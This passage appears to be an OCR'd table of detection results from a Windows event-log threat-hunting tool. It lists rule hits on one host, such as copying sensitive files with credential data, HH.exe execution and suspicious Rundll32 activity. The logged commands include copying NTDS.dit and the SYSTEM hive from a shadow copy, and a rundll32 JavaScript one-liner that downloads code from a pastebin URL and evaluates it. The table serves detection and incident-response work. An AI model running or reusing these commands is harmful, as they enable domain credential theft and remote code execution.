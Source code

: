     │                     │    │ with Credential Data                     │                                │                                                    │ OOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ │
    │                     │    │                                          │                                │                                                    │ NTDS.dit C:\Extract\ntds.dit"                      │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-19 15:11:27 │ 1  │ ‣ Copying Sensitive Files                │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ "C:\Windows\system32\cmd.exe" /c "copy \\?\GLOBALR │
    │                     │    │ with Credential Data                     │                                │                                                    │ OOT\Device\HarddiskVolumeShadowCopy1\Windows\Syste │
    │                     │    │                                          │                                │                                                    │ m32\config\SYSTEM C:\Extract\VSC_SYSTEM_HIVE"      │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-26 07:39:14 │ 1  │ ‣ HH.exe Execution                       │ "MSEDGEWIN10"                  │ C:\Windows\hh.exe                                  │ "C:\Windows\hh.exe" C:\Users\IEUser\Desktop\Fax Re │
    │                     │    │                                          │                                │                                                    │ cord N104F.chm                                     │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-26 07:39:14 │ 1  │ ‣ HTML Help Shell Spawn                  │ "MSEDGEWIN10"                  │ C:\Windows\System32\cmd.exe                        │ "C:\Windows\System32\cmd.exe" /c copy /Y C:\Window │
    │                     │    │ ‣ Suspicious Rundll32 Activity           │                                │                                                    │ s\system32\rundll32.exe %%TEMP%%\out.exe > nul &&  │
    │                     │    │                                          │                                │                                                    │ %%TEMP%%\out.exe javascript:"\..\mshtml RunHTMLApp │
    │                     │    │                                          │                                │                                                    │ lication ";document.write();h=new%%20ActiveXObject │
    │                     │    │                                          │                                │                                                    │ ("WinHttp.WinHttpRequest.5.1");h.Open("GET","http: │
    │                     │    │                                          │                                │                                                    │ //pastebin.com/raw/y2CjnRtH",false);try{h.Send();b │
    │                     │    │                                          │                                │                                                    │ =h.ResponseText;eval(b);}catch(e){new%%20ActiveXOb │
    │                     │    │                                          │                                │                                                    │ ject("WScript.Shell").Run("cmd /c taskkill /f /im  │
    │                     │    │                                          │                                │                                                    │ out.exe",0,true);}                                 │
    ├─────────────────────┼────┼──────────────────────────────────────────┼────────────────────────────────┼────────────────────────────────────────────────────┼────────────────────────────────────────────────────┤
    │ 2019-07-29 21:11:17 │ 1  │ ‣ Suspicious Rundll32 Activity           │ "MSEDGEWIN10"                  │ C:\Windows\System32\rundll32.exe                   │ "C:\Windows\system32\rundll32.exe" Shell32.dll,Con │
